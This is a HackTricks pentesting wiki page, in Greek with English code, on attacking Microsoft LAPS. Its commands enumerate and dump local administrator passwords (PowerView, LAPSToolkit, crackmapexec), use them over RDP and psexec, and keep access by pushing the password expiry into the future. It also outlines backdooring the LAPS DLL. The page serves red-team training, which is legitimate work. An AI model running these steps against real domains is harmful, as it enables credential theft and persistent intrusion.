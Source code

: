 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Basic Information

Η Λύση Κωδικού Πρόσβασης Τοπικού Διαχειριστή (LAPS) είναι ένα εργαλείο που χρησιμοποιείται για τη διαχείριση ενός συστήματος όπου οι **κωδικοί πρόσβασης διαχειριστή**, οι οποίοι είναι **μοναδικοί, τυχαίοι και συχνά αλλάζουν**, εφαρμόζονται σε υπολογιστές που είναι συνδεδεμένοι στο τομέα. Αυτοί οι κωδικοί πρόσβασης αποθηκεύονται με ασφάλεια μέσα στο Active Directory και είναι προσβάσιμοι μόνο σε χρήστες που έχουν λάβει άδεια μέσω Λιστών Ελέγχου Πρόσβασης (ACLs). Η ασφάλεια των μεταδόσεων κωδικών πρόσβασης από τον πελάτη στον διακομιστή διασφαλίζεται με τη χρήση του **Kerberos έκδοση 5** και του **Προηγμένου Προτύπου Κρυπτογράφησης (AES)**.

Στα αντικείμενα υπολογιστών του τομέα, η εφαρμογή του LAPS έχει ως αποτέλεσμα την προσθήκη δύο νέων χαρακτηριστικών: **`ms-mcs-AdmPwd`** και **`ms-mcs-AdmPwdExpirationTime`**. Αυτά τα χαρακτηριστικά αποθηκεύουν τον **κωδικό πρόσβασης διαχειριστή σε απλή μορφή** και **τον χρόνο λήξης του**, αντίστοιχα.

### Check if activated
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS Password Access

Μπορείτε να **κατεβάσετε την ακατέργαστη πολιτική LAPS** από `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` και στη συνέχεια να χρησιμοποιήσετε **`Parse-PolFile`** από το [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) πακέτο για να μετατρέψετε αυτό το αρχείο σε αναγνώσιμη μορφή.

Επιπλέον, οι **ενσωματωμένες LAPS PowerShell cmdlets** μπορούν να χρησιμοποιηθούν αν είναι εγκατεστημένες σε μια μηχανή στην οποία έχουμε πρόσβαση:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** μπορεί επίσης να χρησιμοποιηθεί για να ανακαλύψει **ποιος μπορεί να διαβάσει τον κωδικό πρόσβασης και να τον διαβάσει**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

Το [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) διευκολύνει την αρίθμηση του LAPS με πολλές λειτουργίες.\
Μία είναι η ανάλυση **`ExtendedRights`** για **όλους τους υπολογιστές με ενεργοποιημένο το LAPS.** Αυτό θα δείξει **ομάδες** που έχουν **εξουσιοδοτηθεί ειδικά να διαβάζουν τους κωδικούς πρόσβασης LAPS**, οι οποίες είναι συχνά χρήστες σε προστατευμένες ομάδες.\
Ένας **λογαριασμός** που έχει **συνδέσει έναν υπολογιστή** σε έναν τομέα λαμβάνει `All Extended Rights` πάνω σε αυτόν τον υπολογιστή, και αυτό το δικαίωμα δίνει στον **λογαριασμό** τη δυνατότητα να **διαβάζει κωδικούς πρόσβασης**. Η αρίθμηση μπορεί να δείξει έναν λογαριασμό χρήστη που μπορεί να διαβάσει τον κωδικό πρόσβασης LAPS σε έναν υπολογιστή. Αυτό μπορεί να μας βοηθήσει να **στοχεύσουμε συγκεκριμένους χρήστες AD** που μπορούν να διαβάσουν τους κωδικούς πρόσβασης LAPS.
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
Αν δεν υπάρχει πρόσβαση σε powershell, μπορείτε να εκμεταλλευτείτε αυτό το δικαίωμα απομακρυσμένα μέσω LDAP χρησιμοποιώντας
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
Αυτό θα εξάγει όλους τους κωδικούς πρόσβασης που μπορεί να διαβάσει ο χρήστης, επιτρέποντάς σας να αποκτήσετε καλύτερη πρόσβαση με έναν διαφορετικό χρήστη.

## ** Χρήση Κωδικού LAPS **
```
xfreerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS Persistence**

### **Ημερομηνία Λήξης**

Αφού γίνετε διαχειριστής, είναι δυνατόν να **αποκτήσετε τους κωδικούς πρόσβασης** και να **αποτρέψετε** μια μηχανή από το **να ενημερώσει** τον **κωδικό πρόσβασης** της **ορίζοντας την ημερομηνία λήξης στο μέλλον**.
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
Ο κωδικός πρόσβασης θα επαναρυθμιστεί αν ένας **admin** χρησιμοποιήσει την **`Reset-AdmPwdPassword`** cmdlet; ή αν είναι ενεργοποιημένο το **Do not allow password expiration time longer than required by policy** στην πολιτική LAPS GPO.
{% endhint %}

### Backdoor

Ο αρχικός πηγαίος κώδικας για το LAPS μπορεί να βρεθεί [εδώ](https://github.com/GreyCorbel/admpwd), επομένως είναι δυνατόν να τοποθετηθεί ένα backdoor στον κώδικα (μέσα στη μέθοδο `Get-AdmPwdPassword` στο `Main/AdmPwd.PS/Main.cs` για παράδειγμα) που θα **εξάγει νέους κωδικούς πρόσβασης ή θα τους αποθηκεύει κάπου**.

Στη συνέχεια, απλώς μεταγλωττίστε το νέο `AdmPwd.PS.dll` και ανεβάστε το στη μηχανή στο `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (και αλλάξτε την ώρα τροποποίησης).

## References
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
